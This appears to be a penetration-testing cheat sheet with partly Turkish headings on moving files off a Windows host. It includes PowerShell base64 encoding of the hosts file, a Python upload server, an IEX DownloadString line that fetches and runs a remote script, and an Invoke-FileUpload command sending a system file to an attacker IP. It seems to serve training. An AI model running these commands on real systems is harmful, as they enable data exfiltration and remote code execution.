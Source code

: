 

## Upload Operations

### 1-  PowerShell Base64 Encode & Decode

##### 1- Encode File Using PowerShell

```powershell-session
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

##### 2-Decode Base64 String in Linux

```shell-session
echo IyBDb3B5cm...SNIP....0DQo= | base64 -d > hosts
```

```shell-session
md5sum hosts 
```



### 2- PowerShell Web Uploads

##### 1- Upload ile Yapılandırılmış Web Server Kurulumu ve Kullanımı

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

##### 2- Python Upload Server'a Dosya Yüklemek için PowerShell Script

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```


### 3-PowerShell Base64 Web Upload

##### 1- **Base64 Kodlama Komutu**:
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
